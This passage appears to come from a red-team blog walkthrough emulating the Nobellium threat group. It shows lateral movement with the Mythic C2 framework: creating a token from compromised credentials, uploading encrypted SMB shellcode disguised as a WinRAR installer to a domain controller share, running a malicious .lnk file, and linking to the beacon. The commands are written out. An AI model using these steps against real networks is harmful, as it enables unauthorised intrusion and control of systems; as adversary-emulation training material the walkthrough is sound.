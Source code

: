 - Say that we compromise credentials for another server from this host: Load the `make_token` and `link` modules: `load <command name>`

- Create a new Credential using `make_token`

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/APT-Emulation-Nobellium/Pasted%20image%2020220818025532.png)

- Reiterate the process to now encrypt the `SMB` shellcode and upload it on the `ADMIN$` share from Mythic using: `upload \\PACES-DC\C$\users\public\ winrar-x64-611.zip`

- RDP into `PACES-DC`, expand the Archive and execute the malicious `.lnk` like before:

```
PS> Expand-Archive winrar-x64-611.zip

PS> .\winrar-x64-611-setup.lnk
```

- Use Mythic to create a `link` to the SMB beacon on `PACES-DC`: `link PACES-DC`

![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/APT-Emulation-Nobellium/Pasted%20image%2020220818031735.png)
